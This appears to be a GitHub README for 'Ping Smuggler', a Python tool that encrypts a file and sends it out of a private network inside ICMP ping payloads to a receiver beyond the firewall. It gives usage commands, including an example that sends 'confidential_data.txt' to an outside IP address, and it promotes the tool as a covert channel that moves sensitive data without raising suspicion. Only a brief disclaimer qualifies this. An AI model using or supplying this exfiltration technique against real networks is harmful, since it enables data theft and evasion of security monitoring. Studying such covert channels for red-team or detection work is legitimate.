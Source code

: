# Ping Smuggler

Ping Smuggler is a Python tool designed to exfiltrate data from a private network by sending encrypted payloads disguised as ICMP ping packets. This technique can be used to bypass firewalls that allow ICMP ping traffic while maintaining a covert channel for data transmission.

## Overview

This repository contains two Python scripts:

1. **Sender Script (sender.py):**
    - Reads a text file and encrypts its contents into chunks.
    - Sends the encrypted chunks as ICMP payloads to a specified destination IP address.

2. **Receiver Script (receiver.py):**
    - Listens for incoming ICMP packets and captures them.
    - Decrypts the encrypted payloads contained within the ICMP packets.
    - Reconstructs the original text file from the decrypted chunks.

## Working Principle

Ping Smuggler utilizes the following approach to exfiltrate data:

1. **Encryption and Transmission (Sender Script):**
    - The sender script encrypts the data from a text file using AES encryption.
    - The encrypted data is split into chunks, and each chunk is sent as the payload of an ICMP ping packet to the specified destination IP address.

2. **Decryption and Reconstruction (Receiver Script):**
    - The receiver script captures the ICMP ping packets containing the encrypted payloads.
    - It decrypts the encrypted payloads using the same AES key.
    - Finally, it reconstructs the original text file from the decrypted chunks.

### Usage

### Sender Script (sender.py)

```bash
python sender.py <file_path> <destination_ip> <key>
```
   - <file_path>: Path to the text file to be exfiltrated.
   - <destination_ip>: IP address of the receiving computer outside the private network.
   - <key>: Encryption key (16, 24, or 32 bytes) for AES encryption.

### Receiver Script (receiver.py)
```bash
python receiver.py <key> <output_cap_file> <output_text_file>
```
   - <key>: Encryption key (must match the key used by the sender script).
   - <output_cap_file>: Path to store the captured ICMP packets (in .cap format).
   - <output_text_file>: Path to store the reconstructed text file.

### Example
## Sender Script

```bash
python sender.py confidential_data.txt 203.0.113.5 top_secret_key
```

## Receiver Script

```bash
python receiver.py top_secret_key received_packets.cap received_text.txt
```
### Usage Scenario
Ping Smuggler can be utilized in scenarios where ICMP ping traffic is allowed through a firewall, providing a covert channel for exfiltrating sensitive data from a private network. By disguising encrypted data as ICMP ping payloads, Ping Smuggler enables the transfer of data without raising suspicion or triggering firewall rules.

### Diagram
```lua
   Private Network            Firewall            Outside Network
+-------------------+    +-----------------+    +-------------------------+
|                   |    |    Firewall     |    |                         |
|   Sender          +--->+                 +--->+    Receiver             |
|                   |    |   (Allowing     |    |                         |
+-------------------+    |   ICMP Ping)    |    +-------------------------+
     Encrypts            +-----------------+            Decrypts
     Payloads                                           Payloads
```
In this diagram, Ping Smuggler bypasses the firewall by sending encrypted payloads disguised as ICMP ping packets, allowing for the exfiltration of data from the private network to the outside network.           

### Dependencies
   - Python 3.x
   - scapy
   - cryptography

### Disclaimer
Please use Ping Smuggler responsibly and only in accordance with applicable laws and regulations. Unauthorized or malicious use of this tool may result in legal consequences.
